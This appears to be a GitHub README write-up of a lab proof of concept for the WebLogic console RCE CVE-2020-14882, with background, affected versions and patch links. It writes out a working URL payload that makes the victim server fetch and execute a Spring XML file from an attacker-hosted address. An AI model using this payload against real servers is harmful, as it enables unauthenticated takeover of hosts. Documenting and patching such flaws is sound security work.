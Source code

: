 # WebLogic RCE Vulnerability - CVE-2020-14882

- **Introduction**

CVE-2020-14882 is a remote code execution (RCE) flaw in the Console component of Oracle WebLogic Server. The pre-authentication flaw was given an attack complexity of “low” and highlighted as “easily exploitable” by Oracle resulting in it being assigned a critical CVSSv3 score of 9.8. Successful exploitation would allow an unauthenticated attacker to compromise the Oracle WebLogic server over HTTP and take complete control of the host. ([About more - Tenable](https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild))

<p align="center">
  <img width="400" height="200" src="https://1.bp.blogspot.com/-HMAjWrWp82g/X6jHH5t4eQI/AAAAAAAALAY/Sh_rTLr2PV0VPyKbX_Ft4glMI86SjBGpQCLcBGAsYHQ/s16000/Oracle+Weblogic+flaw.png">
</p>

- **Score Severity - CVSS 3** :warning:

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/j5L3z3W/Capturar.png">
</p>
<br>

Supported versions that are affected are **10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0.**
# **Exploring** - POC :heavy_exclamation_mark:

### Environment :computer:

<span style="color:red">Victim (WebLogic Server): 192.168.0.15 - Windows 10 PRO running WebLogic Server.</span>
<br>
<span style="color:blue">Attacker (Hosted file XML): 192.168.0.16 - Kali Linux - GNU/Linux - Debian.</span>

1. For the first step, let's create a python file that will exploit the vulnerability in weblogic.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/xHymN9d/1.png">
</p>

Payload:

`http://{}:{}/console/images/%252E%252E%252Fconsole.portal' \
		'?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext' \
		'(%22http://192.168.0.16:8000/Documents/teste.xml%22)'.format('192.168.0.15', '7001')`

This payload will call a spring framework XML library to send a request to a server in the attacker's domain looking for the **teste.xml** file.

2. We need to prepare the XML file that will be called by the victim. We created a standard XML structure, however, we included the framework and the value fields are important in this step because they will be executed on the victim. For this example, we are calling the Windows calculator file.

<p align="center">
  <img width="800" height="150" src="https://i.ibb.co/1n3Ftj5/2.png">
</p>

3. On the attacker's host, we need to create a server with the XML file to be requested by the victim. For ease, we use our own python server http.server.

<p align="center">
  <img width="500" height="50" src="https://i.ibb.co/WpRLY6m/3.png">
</p>


4. Starting the attack :dart:. We start the script from **step 1**, 
In this step, we were able to identify the log of the XML file calls being made by the victim
<p align="center">
  <img width="600" height="100" src="https://i.ibb.co/8g14HZV/4.png">
</p>

5. RCE successfully executed :boom:. On the victim's side, it is possible to view the remote execution (RCE) of the windows calculator


<p align="center">
  <img width="600" height="400" src="https://i.ibb.co/q16796k/5.png">
</p>


## Conclusion
On October 28, security researcher named Jang published a blog post (in Vietnamese) about CVE-2020-14882, including partial details that could be used for a PoC. Jang is no stranger to WebLogic flaws, being credited with discovering and reporting CVE-2020-2555 to Oracle, which patched the vulnerability in its January 2020 CPU. In March, Jang confirmed that CVE-2020-2555 was not completely fixed. The bypass for CVE-2020-2555 was disclosed by another researcher, Quynh Le of VNPT Information Security Center (ISC). Both Le and Jang are credited with reporting this bypass, which is identified as CVE-2020-2883. ([About more - Tenable](https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild))


### Some links to help fix<br>
* Oracle WebLogic: CVE-2020-14882 : Critical Patch Update (Doc ID 2771503.1). ([Suporte Oracle](https://support.oracle.com/knowledge/More%20Applications%20and%20Technologies/2771503_1.html))

* Oracle Critical Patch Update Advisory - October 2020.
([Suporte Oracle](https://www.oracle.com/security-alerts/cpuoct2020traditional.html))

* How to Mitigate the Impact of CVE-2020-14882 Weblogic.
([Suporte Oracle](https://support.oracle.com/knowledge/Oracle%20Database%20Products/2733752_1.html))

* Vulnerability in the Oracle WebLogic Server product of Oracle Fusion Middleware.
([Mitre - CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14882))


#### Vulnerability Fixed ✅
